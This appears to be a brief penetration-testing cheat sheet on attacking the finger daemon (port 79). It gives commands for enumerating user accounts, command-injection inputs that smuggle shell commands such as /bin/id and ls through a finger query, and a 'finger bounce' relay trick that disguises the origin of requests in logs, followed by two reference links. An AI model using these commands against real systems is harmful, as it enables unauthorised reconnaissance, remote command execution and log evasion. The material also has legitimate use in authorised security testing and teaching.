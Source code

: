 ## User enumeration
```
finger 'a b c d e f g h' @example.com
finger admin@example.com
finger user@example.com
finger 0@example.com
finger .@example.com
finger **@example.com
finger test@example.com
finger @example.com
```
## Command execution
```
finger "|/bin/id@example.com"
finger "|/bin/ls -a /@example.com"
```

## Finger Bounce

Hop from one finger deamon to another. Request will get logged as if it arrived from a relay.

```
finger@host.com@victim.com
```

## References

### Summarized References
- Giving the Finger to port 79 / Simple Finger Deamon Tutorial by Paris2K: http://cd.textfiles.com/hmatrix/Tutorials/hTut_0269.html
- http://0daysecurity.com/penetration-testing/enumeration.html
